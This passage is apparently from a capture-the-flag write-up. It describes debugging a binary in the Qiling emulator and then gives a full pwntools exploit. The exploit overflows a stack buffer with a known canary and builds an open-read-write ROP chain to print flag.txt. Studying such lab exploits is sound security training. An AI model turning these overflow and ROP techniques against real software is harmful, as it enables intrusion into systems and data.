 So now I need debug that binray in Qilling. I have found [a useful document](https://docs.qiling.io/en/latest/debugger/), just adding `ql.debugger = True` before `ql.run()` and running `target remote localhost:9999` in GDB.

![image](https://user-images.githubusercontent.com/31349426/253974259-7ba7da34-2620-49fa-b390-cefc089ef597.png)

I've found the interesting thing that the stack canary always equals to `0x6161616161616100`, the vuln's text address is `0x7fffb7dd7000` and the libc's text address is `0x7fffb7dfd000`.

Because `rootfs` only contains `bin`, `lib` and `flag.txt`, so I will write a ROPchain to `orw` flag.txt.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./bin/vuln")
libc = ELF("./lib/libc.so.6")
gs="""
"""
def start():
    if args.LOCAL:
        p = process(["python","sandbox.py","./bin/vuln"])
        # if args.GDB:
        #     gdb.attach(p,gdbscript=gs)
        #     pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
    return p

p = start()
canary = 0x6161616161616100
shellcode = asm(shellcraft.cat("flag.txt",fd=1))
e.address = 0x7fffb7dd6000
libc.address = 0x7fffb7ddb000

rdi_ret = e.address+0x00000000000012a3
rsi_ret = libc.address+0x000000000002601f
rdx_ret = libc.address+0x0000000000142c92
_bss = 0x7fffb7dda000
pause()
p.sendline(b"A"*0x108+p64(canary)+p64(0)+
        p64(rdi_ret)+p64(0)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.read)+

        p64(rdi_ret)+p64(_bss)+
        p64(rsi_ret)+p64(0)+
        p64(libc.sym.open)+

        p64(rdi_ret)+p64(3)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.read)+

        p64(rdi_ret)+p64(1)+
        p64(rsi_ret)+p64(_bss)+
        p64(rdx_ret)+p64(0x100)+p64(libc.sym.write)
)
pause()
p.sendline(b"flag.txt\0")
p.interactive()
```
![image](https://user-images.githubusercontent.com/31349426/253975476-735406ed-87b7-45e7-9642-514808a1b440.png)
